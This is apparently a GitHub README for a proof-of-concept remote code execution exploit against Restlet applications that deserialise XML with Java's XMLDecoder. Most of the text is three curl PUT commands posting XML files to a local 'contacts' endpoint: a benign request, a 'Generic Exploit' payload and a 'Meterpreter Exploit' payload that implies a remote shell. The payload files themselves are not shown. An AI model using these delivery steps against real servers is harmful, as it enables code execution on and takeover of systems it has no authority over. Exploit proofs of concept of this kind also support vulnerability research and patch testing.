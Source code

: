 ## RestletXMLDecoder

RCE Exploit PoC for Restlet application using XMLDecoder as Unmarshaler

Expected use:
curl -X PUT --header "content-type: application/x-java-serialized-object+xml" --data @contact.xml "http://localhost:8180/contacts"

Generic Exploit:
curl -X PUT --header "content-type: application/x-java-serialized-object+xml" --data @contact-rce.xml "http://localhost:8180/contacts"

Meterpreter Exploit:
curl -X PUT --header "content-type: application/x-java-serialized-object+xml" --data @contact-met.xml "http://localhost:8180/contacts"

